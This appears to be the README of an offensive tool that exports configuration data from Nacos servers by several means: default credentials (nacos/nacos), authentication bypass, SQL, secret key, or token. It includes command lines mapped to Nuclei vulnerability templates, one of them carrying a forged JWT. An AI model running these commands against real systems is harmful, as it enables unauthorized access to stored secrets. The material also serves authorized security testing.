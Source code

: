 # NACOS EXPORT

## Feature

- ✅ 通过nacos账号密码导出配置
- ✅ 通过secretkey导出配置
- ✅ 通过token导出配置
- ✅ 通过unauth/bypass导出配置
- ✅ 导出配置数量统计
- ✅ 通过sql导出配置

## Use

考虑到NACOS部署方式不同，在设置目标路径时，指向 `/v1`的上一级目录.

> 若要将结果保存至文件，请通过重定向输出方式

```text
$ python3.11 nacos-export.py -h
usage: nacos-export.py [-h] [-u USERNAME] [-p PASSWORD] [-t TOKEN] [-sk SECRETKEY] [--proxy PROXY] url method

 ______________
< Nacos Export >         @Author: Arm!tage
 --------------          @Version: v1.4.1
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |       
                ||     ||

positional arguments:
  url                   NACOS url, before '/v1'
  method                Choice method, {login, bypass|unauth, sql, token, secretkey}

options:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        NACOS username
  -p PASSWORD, --password PASSWORD
                        NACOS password
  -t TOKEN, --token TOKEN
                        token
  -sk SECRETKEY, --secretkey SECRETKEY
                        secretkey
  --proxy PROXY         proxy like: http://127.0.0.1:8080
```

## Nuclei Template

- **nacos-default-login**
  - `python3 nacos-export.py http://TARGET:8848/nacos login -u nacos -p nacos`
- **unauthenticated-nacos-access**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-auth-bypass**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-authentication-bypass:extracted-credentials**
  - `python3 nacos-export.py http://TARGET:8848/nacos token -t eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g`
